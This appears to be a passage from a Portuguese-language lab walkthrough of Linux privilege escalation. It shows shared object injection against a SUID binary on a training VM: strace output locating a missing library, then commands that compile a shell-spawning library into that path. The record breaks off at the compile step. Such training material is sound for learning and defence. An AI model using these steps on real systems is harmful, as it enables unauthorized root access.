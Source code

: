 ### Questões:

- a. ***Read and follow along with the above.*** *Não há necessidade de resposta*

## 12 - SUID / SGID Executables - Shared Object Injection 

O executável ***/usr/local/bin/suid-so*** SUID é vulnerável à injeção de objeto compartilhado.

Primeiro, execute o arquivo e observe que atualmente ele exibe uma barra de progresso antes de sair:

```shell
user@debian:~$ /usr/local/bin/suid-so
Calculating something, please wait...
[=====================================================================>] 99 %
Done.
```

Agora, execute ***strace*** no arquivo e pesquise a saída para chamadas de abertura/acesso e para erros "no such file":

```shell
user@debian:~$ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libdl.so.2", O_RDONLY)       = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libm.so.6", O_RDONLY)        = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
```
Observe que o executável tenta carregar o objeto compartilhado /home/user/.config/libcalc.so no diretório home do usuário, mas não foi localizado.

Crie o diretório .config para o arquivo libcalc.so:

```shell
mkdir /home/user/.config
```

Um exemplo de código que explora objeto (biblioteca) compartilhado pode ser encontrado em ***/home/user/tools/suid/libcalc.c*** na VM. Ele simplesmente gera um shell Bash. Compile o código em um objeto compartilhado no local em que o executável suid-so estava procurando por ele:

```shell
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```
Evidente que em um pentest real, seria preciso mandar esse código para o host alvo.
